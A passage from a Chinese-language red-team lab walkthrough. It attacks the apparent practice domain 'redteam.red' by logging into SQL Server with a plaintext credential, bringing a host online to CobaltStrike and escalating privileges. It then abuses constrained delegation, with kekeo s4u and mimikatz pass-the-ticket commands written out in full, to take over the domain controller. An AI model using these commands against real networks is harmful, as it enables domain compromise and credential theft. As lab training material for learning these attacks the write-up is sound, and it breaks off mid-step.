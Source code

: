 发现都不行，还是用 MSF 把：

```
user : redteam\sqlserver
pass : Server12345
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLv4KdyvHQODs1icBGCW7afQ9uZxnpOTqhkeu0vP3ujcehyyjKIGbHDicg/640?wx_fmt=png)

然后找到了一个可读可写目录上传 exe 成功，然后中转再上线到 CobaltStrike：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLQK1PwnRw7TwCcicYmluFKCaIgQx6EWau6DaE6sJseC5LUjqxIofvpjw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLPeiccoo2n82tv4qfMcIMztL4mkzavPpF0YjGsAic6sictdXjrCKePrWqw/640?wx_fmt=png)

权限太小了，用这个执行下：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLDHbDPrQF1VXbbCj3rYFDVwic5o8CosN6VPuUUI4RL1AfFsLgZp0Lnicw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLgrRmJiak7QuWhRU0Budic6W4pib3GHqu6TibOC6T9huuMGbph4Db2sHY8Q/640?wx_fmt=png)

这个时候提权成功，然后抓到 sqlserver 的密码：

```
kekeo.exe "tgt::ask /user:sqlserver /domain:redteam.red /password:Server12345 /ticket:administrator.kirbi"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLo5JGqvqasavwQxrMib5LJfuoafpSC3gp5Rjib9RSehlia9KXUjbqcedBQ/640?wx_fmt=png)

之前信息搜集的时候我们知道 `sqlserver` 是一个约束委派的用户，我们可以通过约束委派攻击来接管域控。

**约束委派接管域控**

利用 kekeo 请求该用户的 TGT：`TGT_sqlserver@REDTEAM.RED_krbtgt~redteam.red@REDTEAM.RED.kirbi`  

```
kekeo.exe "tgs::s4u /tgt:TGT_sqlserver@REDTEAM.RED_krbtgt~redteam.red@REDTEAM.RED.kirbi /user:Administrator@redteam.red /service:cifs/owa.redteam.red"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL7e4ZtYyO22NDvSFUcdxYUAuPm9xgJsQGVnIP66lSkSNLpQs2180icJA/640?wx_fmt=png)

然后使用这张 TGT (`TGT_sqlserver@REDTEAM.RED_krbtgt~redteam.red@REDTEAM.RED.kirbi`) 获取域机器的 ST：`TGS_Administrator@redteam.red@REDTEAM.RED_cifs~owa.redteam.red@REDTEAM.RED.kirbi`  

```
mimikatz kerberos::ptt TGS_Administrator@redteam.red@REDTEAM.RED_cifs~owa.redteam.red@REDTEAM.RED.kirbi
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLaTR4zYMU244vmLfhYwe2YqLNHzIxRgwZf5yIOAJKs8zzMRAA0xJjmA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL1S5Ms7W8dRjUq4otKPiakRPvb2clM6u79Be9zJG29CfLFmiccB1sep8w/640?wx_fmt=png)

使用 mimikatz 将 ST2 导入当前会话即可，运行 mimikatz 进行 ptt：  
